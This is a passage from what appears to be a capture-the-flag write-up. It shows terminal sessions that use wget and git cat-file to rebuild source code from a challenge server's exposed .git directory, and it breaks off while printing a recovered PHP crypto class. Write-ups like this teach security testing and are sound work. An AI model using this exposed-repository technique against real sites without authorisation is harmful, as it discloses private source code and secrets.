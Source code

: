 ```bash
2021-10-09 22:40:02 (11.0 MB/s) - ‘.git/objects/c2/c1d8bde15fa2174d6acd1284d7251579b8a1b4’ saved [268/268]

juancho💀hackbox:git-commit-m-whatever$ git cat-file -t c2c1d8bde15fa2174d6acd1284d7251579b8a1b4
tree
juancho💀hackbox:git-commit-m-whatever$ git cat-file -p c2c1d8bde15fa2174d6acd1284d7251579b8a1b4
040000 tree 4fbdfd5fda330754872764810dfa2c1ef46f1bb0	Crypt
040000 tree 4979a80a4c88cdbb529b51aa231caff61d9228a0	File
040000 tree 465e79b104f83169a4f95900a6a9f42b34e71892	Math
040000 tree 3a8a916693a0d0acf0320d287318d9ddd123cbe3	Net
040000 tree 072aad170b0a780723ef2c690a3fe4f5e3392830	System
100644 blob 95d5d6fbb14df57d143ec73df6dc00807f85b1db	bootstrap.php
100644 blob 0d4096f89f4ea65a44c2a4038b6f931c95c5eba4	index.php
100644 blob 58a1261b18cc493ba5be1c4ef8f04d258716e419	openssl.cnf
juancho💀hackbox:git-commit-m-whatever$ 
```

Perfect. I could see all the files in the commit, and their hashes. I could then do the same procedure for all the files. But at this point, I was only interested with `index.php`, so I did the same steps:

```bash
juancho💀hackbox:git-commit-m-whatever$ mkdir .git/objects/0d
juancho💀hackbox:git-commit-m-whatever$ wget http://193.57.159.27:46140/.git/objects/0d/4096f89f4ea65a44c2a4038b6f931c95c5eba4 -P .git/objects/0d
--2021-10-09 22:41:48--  http://193.57.159.27:46140/.git/objects/0d/4096f89f4ea65a44c2a4038b6f931c95c5eba4
Connecting to 193.57.159.27:46140... connected.
HTTP request sent, awaiting response... 200 OK
Length: 881
Saving to: ‘.git/objects/0d/4096f89f4ea65a44c2a4038b6f931c95c5eba4’

4096f89f4ea65a44c2a4038b6f931c95c5e 100%[================================================================>]     881  --.-KB/s    in 0s      

2021-10-09 22:41:48 (28.1 MB/s) - ‘.git/objects/0d/4096f89f4ea65a44c2a4038b6f931c95c5eba4’ saved [881/881]

juancho💀hackbox:git-commit-m-whatever$ git cat-file -t 95d5d6fbb14df57d143ec73df6dc00807f85b1db
fatal: git cat-file: could not get object info
juancho💀hackbox:git-commit-m-whatever$ git cat-file -t 0d4096f89f4ea65a44c2a4038b6f931c95c5eba4
blob
juancho💀hackbox:git-commit-m-whatever$ git cat-file -p 0d4096f89f4ea65a44c2a4038b6f931c95c5eba4
<?php

/**
 * Simple sodium crypto class for PHP >= 7.2
 * @author MRK
 */
class crypto {

    /**
     * 
     * @return type
     */
    static public function create_encryption_key() {
        return base64_encode(sodium_crypto_secretbox_keygen());
    }

    /**
     * Encrypt a message
     * 
     * @param string $message - message to encrypt
     * @param string $key - encryption key created using create_encryption_key()
```